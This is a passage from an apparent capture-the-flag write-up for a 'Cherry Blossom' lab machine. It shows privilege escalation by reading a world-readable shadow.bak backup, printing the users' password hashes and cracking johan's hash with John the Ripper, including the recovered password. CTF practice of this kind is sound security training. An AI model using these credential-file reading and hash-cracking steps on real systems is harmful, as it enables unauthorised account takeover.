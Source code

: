 

## Privilege Escalation

```
lily@cherryblossom:/var/backups$ ls -al
total 2000                 
drwxr-xr-x  2 root root      4096 Feb 10  2020 .
drwxr-xr-x 14 root root      4096 Apr 26  2018 ..
-rw-r--r--  1 root root     71680 Feb 10  2020 alternatives.tar.0
-rw-r--r--  1 root root      3338 Feb  9  2020 alternatives.tar.1.gz
-rw-r--r--  1 root root      3016 Feb  9  2020 apt.extended_states.0
-rw-r--r--  1 root root        11 Feb  9  2020 dpkg.arch.0
-rw-r--r--  1 root root        43 Feb  9  2020 dpkg.arch.1.gz
-rw-r--r--  1 root root       280 Feb  9  2020 dpkg.diversions.0
-rw-r--r--  1 root root       160 Feb  9  2020 dpkg.diversions.1.gz
-rw-r--r--  1 root root       265 Apr 26  2018 dpkg.statoverride.0
-rw-r--r--  1 root root       190 Apr 26  2018 dpkg.statoverride.1.gz
-rw-r--r--  1 root root   1510615 Feb  9  2020 dpkg.status.0
-rw-r--r--  1 root root    402441 Feb  9  2020 dpkg.status.1.gz
-rw-------  1 root root       936 Feb  9  2020 group.bak
-rw-------  1 root shadow     771 Feb  9  2020 gshadow.bak
-rw-------  1 root root      2382 Feb  9  2020 passwd.bak
-r--r--r--  1 root shadow    1481 Feb  9  2020 shadow.bak
lily@cherryblossom:/var/backups$ cat shadow.bak 
```
cool we hav read access to the `shadow.bak` file... let's check its content.

```
root:$6$l81PobKw$DE0ra9mYvNY5rO0gzuJCCXF9p08BQ8ALp5clk/E6RwSxxrw97h2Ix9O6cpVHnq1ZUw3a/OCubATvANEv9Od9F1:18301:0:99999:7:::
daemon:*:17647:0:99999:7:::             
bin:*:17647:0:99999:7:::
[snipped]
johan:$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0:18301:0:99999:7:::
lily:$6$3GPkY0ZP$6zlBpNWsBHgo6X5P7kI2JG6loUkZBIOtuOxjZpD71spVdgqM4CTXMFYVScHHTCDP0dG2rhDA8uC18/Vid3JCk0:18301:0:99999:7:::
sshd:*:18301:0:99999:7:::
```
we can see the password hash for user `johan` let's crack the hash 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/CheeryBlossom]
└─$ cat hash  
johan:$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0:18301:0:99999:7:::
                                                                                                                                                                       
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/CheeryBlossom]
└─$ john -w=cherry-blossom.txt hash              
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
##scuffleboo##   (johan)     
1g 0:00:00:09 DONE (2023-02-27 07:18) 0.1051g/s 726.8p/s 726.8c/s 726.8C/s #sharry#1992..#music28
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
cool we got the password, let's `su johan` with that password.
